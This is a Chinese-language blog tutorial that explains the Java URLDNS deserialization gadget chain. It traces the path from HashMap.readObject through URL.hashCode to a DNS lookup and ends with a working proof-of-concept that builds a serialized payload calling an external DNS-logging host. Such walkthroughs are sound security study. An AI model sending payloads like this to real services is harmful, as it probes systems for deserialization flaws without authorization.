 # URLDNS链详解


世界上最简单的 java 链
&lt;!--more--&gt;


先来看一下如何序列化/反序列化
```java
package org.example;  
  
import java.io.*;  
  
public class App   
{  
    public static void main( String[] args ) throws Exception  
    {  
        user user = new user();  
        user.setName(&#34;xiaoming&#34;);  
        //序列化输出  
        ObjectOutputStream out = new ObjectOutputStream(System.out);  
        out.writeObject(user);  
        System.out.println();  
        // 序列化写入文件  
        FileOutputStream file = new FileOutputStream(&#34;test.bin&#34;);  
        ObjectOutputStream fout = new ObjectOutputStream(file);  
        fout.writeObject(user);  
        // 序列化写入到变量中  
        ByteArrayOutputStream bout = new ByteArrayOutputStream();  
        ObjectOutputStream jout = new ObjectOutputStream(bout);  
        jout.writeObject(user);  
        byte[] str = bout.toByteArray();  
        System.out.println(new String(str));  
        // 从变量中反序列化  
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));  
        user user_d = (user) ois.readObject();  
        System.out.println(user_d.getName());  
    }  
}  
  
class user implements Serializable{  
    private String name;  
  
    public user() {  
    }  
  
    public void setName(String name) {  
        this.name = name;  
    }  
  
    public String getName() {  
        return name;  
    }  
}
```
# URLDNS链详解
## 原理
`java.util.HashMap`重写了`readObject`方法，在反序列化时调用`hash`函数计算 key 的 hashCode，而`java.net.URL`的 hashCode 在计算时会调用`getHostAddress`来解析域名，从而发出 DNS 请求
由HashMap 类`readObject`引起，
```java
private void readObject(ObjectInputStream s)  
    throws IOException, ClassNotFoundException {  
    reinitialize();  
  
    ObjectInputStream.GetField fields = s.readFields();  
  
    // Read loadFactor (ignore threshold)  
    float lf = fields.get(&#34;loadFactor&#34;, 0.75f);  
    if (lf &lt;= 0 || Float.isNaN(lf))  
        throw new InvalidObjectException(&#34;Illegal load factor: &#34; &#43; lf);  
  
    lf = Math.min(Math.max(0.25f, lf), 4.0f);  
    HashMap.UnsafeHolder.putLoadFactor(this, lf);  
  
    s.readInt();                // Read and ignore number of buckets  
    int mappings = s.readInt(); // Read number of mappings (size)  
    if (mappings &lt; 0) {  
        throw new InvalidObjectException(&#34;Illegal mappings count: &#34; &#43; mappings);  
    } else if (mappings == 0) {  
        // use defaults  
    } else if (mappings &gt; 0) {  
        float fc = (float)mappings / lf &#43; 1.0f;  
        int cap = ((fc &lt; DEFAULT_INITIAL_CAPACITY) ?  
                   DEFAULT_INITIAL_CAPACITY :  
                   (fc &gt;= MAXIMUM_CAPACITY) ?  
                   MAXIMUM_CAPACITY :  
                   tableSizeFor((int)fc));  
        float ft = (float)cap * lf;  
        threshold = ((cap &lt; MAXIMUM_CAPACITY &amp;&amp; ft &lt; MAXIMUM_CAPACITY) ?  
                     (int)ft : Integer.MAX_VALUE);  
  
        // Check Map.Entry[].class since it&#39;s the nearest public type to  
        // what we&#39;re actually creating.        SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);  
        @SuppressWarnings({&#34;rawtypes&#34;,&#34;unchecked&#34;})  
        Node&lt;K,V&gt;[] tab = (Node&lt;K,V&gt;[])new Node[cap];  
        table = tab;  
  
        // Read the keys and values, and put the mappings in the HashMap  
        for (int i = 0; i &lt; mappings; i&#43;&#43;) {  
            @SuppressWarnings(&#34;unchecked&#34;)  
                K key = (K) s.readObject();  
            @SuppressWarnings(&#34;unchecked&#34;)  
                V value = (V) s.readObject();  
            putVal(hash(key), key, value, false, false);  
        }  
    }  
}
```
在`HashMap`的键名计算了 hash，
`putVal(hash(key), key, value, false, false);`
跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141127560.png)

调用了`key.hashCode()`，而这里的 key 是可控的，就是传入的`java.net.URL`，跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141150723.png)

这里`hashCode==-1`，重新进行`hashCode()`方法计算，跟进`handler`查看调用了哪一个`hashCode()`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141151442.png)

`transient关键字，修饰 Java 序列化对象时，不需要序列化属性`也就是`handler`属性不参与序列化，直接跟进`URLStreamHandler`查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141152682.png)

这里调用了`getHostAddress`跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141153663.png)

又调用了`java.net.URL`的`getHostAddress`方法
继续跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141154024.png)

进入到`InetAddress.getByName(host);`便会触发`DNS`请求
继续回到`readObject()`中，看看如何给`key`赋值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141230086.png)

`key`是从`K key = (K) s.readObject();`这串代码，也就是`readObject`中得到的，说明之前是`writeObject`会写入 key
HashMap#writeObject

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232544.png)

进入了`internalWriteEntries()`跟进查看

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232079.png)

这里的`key`以及`value`是从 tab 中取的，而 tab 的值即`HashMap`中 table 的值。
想要修改table的值，就需要调用`HashMap#put`方法，而HashMap#put方法中也会对key调用一次hash方法，所以这里也会产生一次dns查询
为了避免这次 dns 查询，我们将hashCode设置不为`-1`的其他值
构造完整poc
```java
package org.example;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.net.URL;  
import java.util.HashMap;  
  
  
public class URLDNS {  
    public static void main(String[] args) throws Exception {  
        HashMap hashmap = new HashMap();  
        URL url = new URL(&#34;http://47894df839.ipv6.1433.eu.org&#34;);  
        Field f = Class.forName(&#34;java.net.URL&#34;).getDeclaredField(&#34;hashCode&#34;);  
        f.setAccessible(true);  
        f.set(url,1);  
        hashmap.put(url,1);  
        f.set(url,-1);  
        ByteArrayOutputStream b = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(b);  
        oos.writeObject(hashmap);  
  
        byte[] str = b.toByteArray();  
        System.out.println(str);  
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));  
        ois.readObject();  
  
  
    }  
}
```
调用栈如下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141314961.png)



---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/urldns%E9%93%BE%E8%AF%A6%E8%A7%A3/  

